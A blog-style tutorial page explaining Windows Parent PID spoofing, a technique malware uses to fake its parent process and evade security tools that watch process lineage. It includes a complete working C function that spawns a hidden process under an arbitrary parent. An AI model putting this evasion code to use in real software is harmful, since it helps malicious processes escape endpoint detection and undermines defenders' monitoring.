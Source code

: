 ```yaml
---
description: Parent PID Spoofing
---
```


# PPID Spoofing

## Introduction

PPID Spoofing is a technique which is used by malwares to spoof their parent process, as if to show that they were spawned by a legitimate process. For eg. if a powershell is being spawned by office, this becomes really suspicious in contrast to powershell being spawned from explorer (this is same as you opening powershell from its location).  Vendors monitor the parent-child relationships between the processes to identify potential suspicious behavior. Below I have used process hacker to show how it is displayed.



<figure><img src="../../.gitbook/assets/image (56).png" alt=""><figcaption><p>Powershell being spawned interactively</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>powershell from a macro</p></figcaption></figure>

## Theory

So how does this work? Well you must be aware we can create a process using the CreateProcess api. While creating a process, it is possible to specify extended attributes by using the [**STARTUPINFOEX**](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/ns-winbase-startupinfoexa) structure. According to [MSDN](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)

> To set extended attributes, use a [STARTUPINFOEX](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/ns-winbase-startupinfoexa) structure and specify **EXTENDED\_STARTUPINFO\_PRESENT** in the _dwCreationFlags_ parameter.

We can initialize the `PROC_THREAD_ATTRIBUTE_LIST` using the [InitializeProcThreadAttributeList](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist) & then use [UpdateProcThreadAttribute](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute) api to update the value of `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` to the handle to the parent process.&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>From winbase.h</p></figcaption></figure>

We can see different attributes defined here. For now, we just want the first one.&#x20;

## PPID Spoofing

Alright, First we have to get handle to the Parent Process. Since we would most probably be running as low privileged user, we need to look for a process accordingly. Since I just want to explain, I'll use flameshot (ss tool) instead as a parent process. First I need to get handle to it.

```c
hParent = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwParentPID);
```

&#x20;Then I need to initialize the process attribute list and update it accordingly. But before that, [MSDN](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist) asks us to call this function with the count of attributes we want to set and then.

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

```c
InitializeProcThreadAttributeList(NULL, 1, NULL, &sz_tAttribList);
pThreadAttribList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sz_tAttribList);
InitializeProcThreadAttributeList(pThreadAttribList, 1, NULL, &sz_tAttribList)
UpdateProcThreadAttribute(pThreadAttribList, NULL, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParent, sizeof(HANDLE), NULL, NULL)
si_ex.lpAttributeList = pThreadAttribList;
CreateProcessA(NULL, lpProcName, NULL, NULL, FALSE, (EXTENDED_STARTUPINFO_PRESENT | CREATE_NO_WINDOW), NULL, "C:\\Windows\\System32", &si_ex.StartupInfo, &pi)
```

After initializing it once, we get the size of attribute list, then we allocate heap memory for it and initialize it once again, after which we can update it and create the process. It is important to specify the `EXTENDED_STARTUPINFO_PRESENT` when we want to set the attributes.

Here's the full code

```c
BOOL ppidSpoofer(IN HANDLE hParent, IN LPCSTR lpProcName) {
    SIZE_T                             sz_tAttribList = NULL;
    PPROC_THREAD_ATTRIBUTE_LIST        pThreadAttribList = NULL;
    STARTUPINFOEXA                     si_ex = { 0 };
    PROCESS_INFORMATION                pi = { 0 };

    SecureZeroMemory(&si_ex, sizeof(STARTUPINFOEXA));
    SecureZeroMemory(&pi, sizeof(pi));

    InitializeProcThreadAttributeList(NULL, 1, NULL, &sz_tAttribList);
    DWORD err_122 = GetLastError();
    if (err_122 != ERROR_INSUFFICIENT_BUFFER) {
        warn("Initializing failed   @--=%d", err_122);
    }
    info("ThreadAttrib is of %d size , GOT ERROR  @--=%d", (int)sz_tAttribList, GetLastError());
    
    pThreadAttribList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sz_tAttribList);
    if (pThreadAttribList == NULL) {
        warn("Error Allocating Heap  @--=0x%d", GetLastError());
        return FALSE;
    }

    if (!InitializeProcThreadAttributeList(pThreadAttribList, 1, NULL, &sz_tAttribList)) {
        warn("Initializing Attributes failed   @--=0x%d", GetLastError());
        return FALSE;
    }

    if (!UpdateProcThreadAttribute(pThreadAttribList, NULL, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParent, sizeof(HANDLE), NULL, NULL)) {
        warn("Updating Attributes failed   @--=0x%d", GetLastError());
        return FALSE;
    }

    si_ex.lpAttributeList = pThreadAttribList;

    if (!CreateProcessA(NULL, lpProcName, NULL, NULL, FALSE, (EXTENDED_STARTUPINFO_PRESENT | CREATE_NO_WINDOW), NULL, "C:\\Windows\\System32", &si_ex.StartupInfo, &pi)) {
        // I can change the current directory of the spawned process just by specifying where I want it to be ---------------- ^
        warn("Process Creation failed   @--=0x%d", GetLastError());
        return FALSE;
    }
    
    info("Created Process with id %d", pi.dwProcessId);
    CloseHandle(hParent);

    return TRUE;
}
```

After running this , we can see the process from process hacker.

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

And that's it for this time. It was a fairly small topic and a simple one. I do aim to talk about faking the process arguments next time. If you liked it, do let me know and drop a follow on [twitter](https://x.com/ZzN1NJ4).

## References

* [http://www.rohitab.com/discuss/topic/38601-proc-thread-attribute-list-structure-documentation/](http://www.rohitab.com/discuss/topic/38601-proc-thread-attribute-list-structure-documentation/)
* [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist)








